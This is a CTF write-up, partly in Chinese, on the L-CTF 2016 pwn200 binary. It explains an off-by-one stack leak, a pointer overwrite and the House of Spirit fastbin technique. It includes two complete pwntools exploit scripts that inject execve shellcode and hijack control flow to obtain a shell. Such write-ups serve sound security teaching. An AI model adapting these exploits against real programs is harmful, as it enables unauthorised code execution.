



### L-CTF 2016 pwn200
程序运行
程序分析
#### 漏洞简介
**The house of Spirit**
> The House of Spirit is a little different from other attacks in the sense that it involves an attacker overwriting an existing pointer before it is 'freed'. The attacker creates a 'fake chunk', which can reside anywhere in the memory (heap, stack, etc.) and overwrites the pointer to point to it. The chunk has to be crafted in such a manner so as to pass all the security tests. This is not difficult and only involves setting the size and next chunk's size. When the fake chunk is freed, it is inserted in an appropriate binlist (preferably a fastbin). A future malloc call for this size will return the attacker's fake chunk. The end result is similar to 'forging chunks attack' described earlier.

[The House Of Spirit](https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit.html)


#### 程序运行
1. **初始内容**
```
who are u?
Bill
Bill, welcome to xdctf
give me your id ~~?
001
give me money~
10000
```
2. **主要内容**
```
=======EASY HOTEL========
1. check in
2. check out
3. goodbye
```
**check in**: `malloc`
**check out**: `free`
**good bye**: `exit`
#### 程序分析
**1. checksec**



**2. 漏洞一 (`off by one`)**



> 当输入`48`个字符时, 会触发`off by one`漏洞, 将`0x400A8E`函数栈帧`RBP`打印出来.

**2. 漏洞二 (变量覆盖)**



### 漏洞利用
**两种思路**
1. **思路(非HOS)**: 初始时输入`shellcode`, 泄露`RBP`,找出`Shellcode`地址. 覆盖dest变量值为`free@got`, `buf`中为`shellcode_addr + 其他任意字符`, 最后:输入`2`, 执行`free`(就是执行我们的`shellcode`).
```
#coding = utf8
from pwn import *
context(log_level="debug")

p = process('./pwn200')
elf = ELF('./pwn200')
free_got = elf.got["free"]

gdb.attach(p)
p.recvuntil('u?\n')

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
p.send(shellcode+"a"*(48-len(shellcode)))

ebp = u64(p.recvuntil(' me your id ~~?\n')[48:48+6].ljust(8,'\x00')) # leak stack address
print "ebp = "+hex(ebp)
offset = 0x00007fff401d62e0 - 0x00007fff401d6290
shellcode_addr = ebp - offset
print "shellcode_addr = " + hex(shellcode_addr)
p.sendline('0') #id

p.recvuntil('\n')

payload = p64(shellcode_addr)
p.send(payload + '\x00'*(0x38-len(payload)) + p64(free_got))  #the juck data must be '\x00' in the got!
p.recvuntil('choice :')
p.sendline('2')
p.interactive()
```
2.**思路(HOS)**: 修改`0x400A29`函数的返回值地址为`shellcode`地址, 退出即可.
**leak address**
```
payload  = ''
payload += shellcode.ljust(48)
p.recvuntil('who are u?\n')
p.send(payload)
p.recvuntil(payload)

rbp_addr = u64(p.recvn(6).ljust(8, '\x00'))
shellcode_addr = rbp_addr - 0x50 # 20H + 30H
print "shellcode_addr: ", hex(shellcode_addr)
fake_addr = rbp_addr - 0x90 # 修改函数返回值地址用
```
**free(fake_addr)**
```
data = p64(0)*4 + p64(0) + p64(0x41) # p64(0)*4, strcpy不会复制任何字符到fake_addr
data = data.ljust(56, '\x00') + p64(fake_addr)
print data
p.send(data)

p.recvuntil('choice : ')
p.sendline('2') 	# free(fake_addr)
```
**malloc**
```
p.recvuntil('choice : ')
p.sendline('1')
p.recvuntil('long?')
p.sendline('48')    # 48 + 16 = 64 = 0x40, 大小要和fastbin中的大小一致, 这样才会返回我们的fake_addr
p.recvline('48')    # ptr = malloc(48)

data = 'a' * 0x18 + p64(shellcode_addr) # write to target_addr
data = data.ljust(48, '\x00')
```
**Quit**
```
p.recvuntil('choice')
p.sendline('3')

p.interactive()
```
### The Whole EXP
```
from pwn import *

context.log_level = 'debug'
# p = remote('127.0.0.1', 7777)
p = process('./pwn200')

free_got = 0x0000000000602018

shellcode = asm(shellcraft.amd64.linux.sh(), arch = 'amd64')

gdb.attach(p)
#part one
payload  = ''
payload += shellcode.ljust(48)

p.recvuntil('who are u?\n')
p.send(payload)
p.recvuntil(payload)

rbp_addr = u64(p.recvn(6).ljust(8, '\x00'))

shellcode_addr = rbp_addr - 0x50 # 20H + 30H
print "shellcode_addr: ", hex(shellcode_addr)
fake_addr = rbp_addr - 0x90 # offset 0x40 to shellcode, 0x400a29 return address


p.recvuntil('give me your id ~~?\n')
p.sendline('32') # id
p.recvuntil('give me money~\n')


#part two
#32bytes padding + prev_size + size + padding + fake_addr
data = p64(0) * 4 + p64(0) + p64(0x41)		# no strcpy
data = data.ljust(56, '\x00') + p64(fake_addr)
print data
p.send(data)

p.recvuntil('choice : ')
p.sendline('2') 	# free(fake_addr)

p.recvuntil('choice : ')
p.sendline('1') 	#malloc(fake_addr) #fake_addr

p.recvuntil('long?')
p.sendline('48')    # 48 + 16 = 64 = 0x40
p.recvline('48')    # ptr = malloc(48)

data = 'a' * 0x18 + p64(shellcode_addr) # write to target_addr
data = data.ljust(48, '\x00')

p.send(data)

p.recvuntil('choice')
p.sendline('3')

p.interactive()
```
### Related Link
[堆之House of Spirit ](https://www.anquanke.com/post/id/85357)(EXP不行)
